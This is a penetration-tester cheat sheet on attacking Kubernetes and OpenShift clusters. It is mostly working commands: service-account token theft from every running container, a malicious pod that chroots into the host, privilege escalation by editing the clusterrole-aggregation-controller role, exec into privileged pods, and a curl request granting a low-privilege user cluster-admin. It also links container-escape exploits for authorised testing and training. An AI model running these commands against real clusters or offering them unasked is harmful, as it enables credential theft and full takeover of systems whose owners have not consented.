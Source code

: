 # Containerization / Orchestration




## Kubernetes

- [https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security)
- [https://redteamrecipe.com/100-Method-For-Container-Attacks/](https://redteamrecipe.com/100-Method-For-Container-Attacks/)



### kubectl

- [https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/](https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/)

Get `kubectl`:

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl
chmod +x ./kubectl
sudo mv ./kubectl /usr/local/bin/kubectl
kubectl version --client
```

Basic authenticated enumeration (the service account token from `/run/secrets/kubernetes.io/serviceaccount/token` can be parsed at [jwt.io](https://jwt.io/)):

```
$ kubectl auth can-i --list
$ kubectl get namespaces
$ kubectl auth can-i --list -n <NAMESPACE>
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pods <POD> -n <NAMESPACE>
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets -n <NAMESPACE>
$ kubectl --token=$(cat token) auth can-i create pods
```

To use kubectl from a remote host:

```
$ ls -la {/run/secrets,/var/run/secrets,/secrets}/kubernetes.io/serviceaccount
$ kubectl auth can-i --list -n kube-system --token `cat token` --server https://192.168.1.11:443 --certificate-authority ca.crt
```

{% hint style="info" %}
- [https://kubernetes.io/docs/tasks/extend-kubernetes/socks5-proxy-access-api/](https://kubernetes.io/docs/tasks/extend-kubernetes/socks5-proxy-access-api/)

Due to proxychains mostly does not work with Go binaries, export `HTTPS_PROXY=socks5://localhost:1080` in order to use kubectl through a SOCKS tunnel.
{% endhint %}



### Malicious Pods

- [https://github.com/BishopFox/badPods](https://github.com/BishopFox/badPods)

Deploy a malicious pod:

```
$ kubectl apply -f evilpod.yml
$ kubectl exec --stdin --tty -it evilpod -- chroot /hostfs bash
```



### Kubernetes API Server Paths

Check these kube-apiserver paths for anonymous access (stolen from [HackTricks](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/pentesting-kubernetes-services#kube-apiserver-anonymous-access)):

```
/api
/api/v1
/apis
/apis
/apis/admissionregistration.k8s.io
/apis/admissionregistration.k8s.io/v1beta1
/apis/apiextensions.k8s.io
/apis/apiextensions.k8s.io/v1beta1
/apis/apiregistration.k8s.io
/apis/apiregistration.k8s.io/v1
/apis/apiregistration.k8s.io/v1beta1
/apis/apps
/apis/apps/v1
/apis/apps/v1beta1
/apis/apps/v1beta2
/apis/authentication.k8s.io
/apis/authentication.k8s.io/v1
/apis/authentication.k8s.io/v1beta1
/apis/authorization.k8s.i
/apis/authorization.k8s.io/v1
/apis/authorization.k8s.io/v1beta1
/apis/autoscaling
/apis/autoscaling/v1
/apis/autoscaling/v2beta1
/apis/batch
/apis/batch/v1
/apis/batch/v1beta1
/apis/certificates.k8s.io
/apis/certificates.k8s.io/v1beta1
```



### Pod Escape


#### CVE-2022-0492 (cgroups)

- [https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)
- [https://0xdf.gitlab.io/2021/05/17/digging-into-cgroups.html](https://0xdf.gitlab.io/2021/05/17/digging-into-cgroups.html)
- [https://github.com/puckiestyle/CVE-2022-0492](https://github.com/puckiestyle/CVE-2022-0492)
- [https://github.com/T1erno/CVE-2022-0492-Docker-Breakout-Checker-and-PoC](https://github.com/T1erno/CVE-2022-0492-Docker-Breakout-Checker-and-PoC)
- [https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/escaping-from-a-docker-container.md](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/escaping-from-a-docker-container.md)



### Node Post-Exploitation

- [https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/attacking-kubernetes-from-inside-a-pod#node-post-exploitation](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/attacking-kubernetes-from-inside-a-pod#node-post-exploitation)


#### clusterrole-aggregation-controller

A study case in taking over the cluster after escaping from a pod to a worker node.

Extract tokens from all the running containers:

```
$ for c in `docker ps -q`; do echo $c; docker exec $c 'cat /var/run/secrets/kubernetes.io/serviceaccount/token' | tee tokens/$c; echo; echo; done
```

Check privileges of each token:

```
$ for t in `ls tokens`; do echo $t; kubectl --token `cat tokens/$t --server https://10.10.0.1 --certificate-authority ca.crt auth can-i --list -n kube-system; done
```

List kube-system secrets with a discovered privileged token:

```
$ kubectl --token `cat tokens/1337deadbeef` --server https://10.10.0.1 --certificate-authority ca.crt get secrets [-o yaml] -n kube-system
```

Add exec privilege with `clusterrole-aggregation-controller` token to itself:

```
$ kubectl --token `cat clusterrole-aggregation-controller-token` --server https://10.10.0.1 --certificate-authority ca.crt auth can-i create pods --subresource exec -n kube-system
no

$ kubectl --token `cat clusterrole-aggregation-controller-token` --server https://10.10.0.1 --certificate-authority ca.crt edit clusterrole system:controller:clusterrole-aggregation-controller
resources:
  - pods
  - pods/exec
verbs:
  - create

$ kubectl --token `cat clusterrole-aggregation-controller-token` --server https://10.10.0.1 --certificate-authority ca.crt auth can-i create pods --subresource exec -n kube-system
yes
```

Look for a privileged pod to exec into it:

```
$ kubectl --kubeconfig /etc/kubernetes/kubelet-kubeconfig.conf get pods --all-namespaces -o wide --filed-selector spec.nodeName=kube-master-01
$ kubectl --kubeconfig /etc/kubernetes/kubelet-kubeconfig.conf get pods some-pod-name -n some-namespace -o json | grep privileged
"privileged": true
```

Do it:

```
$ kubectl --token `cat clusterrole-aggregation-controller-token` --server https://10.10.0.1 --certificate-authority ca.crt exec -it some-pod-name -- bash
cat /proc/self/status | grep Cap
```



### Tools


#### kube-hunter

- [https://github.com/aquasecurity/kube-hunter](https://github.com/aquasecurity/kube-hunter)

```
$ kube-hunter --cidr 10.0.1.0/24 --active
```



### Training Labs

- [https://www.bustakube.com/](https://www.bustakube.com/)
- [https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html](https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html)

{% embed url="https://youtu.be/UgHt_Y3vdNg" %}




## Red Hat OpenShift

- [https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md](https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md)

Grant a low-priv user admin's privileges across the cluster [via REST API](https://access.redhat.com/solutions/5492301):

```json
curl -k -X POST 'https://cluster.megacorp.local:8443/apis/rbac.authorization.k8s.io/v1/clusterrolebindings' \
  -H 'Authorization: Bearer <TOKEN>'  \
  -H 'Accept: application/json'       \
  -H 'Content-Type: application/json' \
  -d'
{
  "kind": "ClusterRoleBinding",
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "metadata": {
    "name": "pwned",
    "creationTimestamp": null
  },
  "subjects": [
    {
      "kind": "User",
      "apiGroup": "rbac.authorization.k8s.io",
      "name": "snovvcrash@megacorp.local"
    }
  ],
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "admin"
  }
}'
```
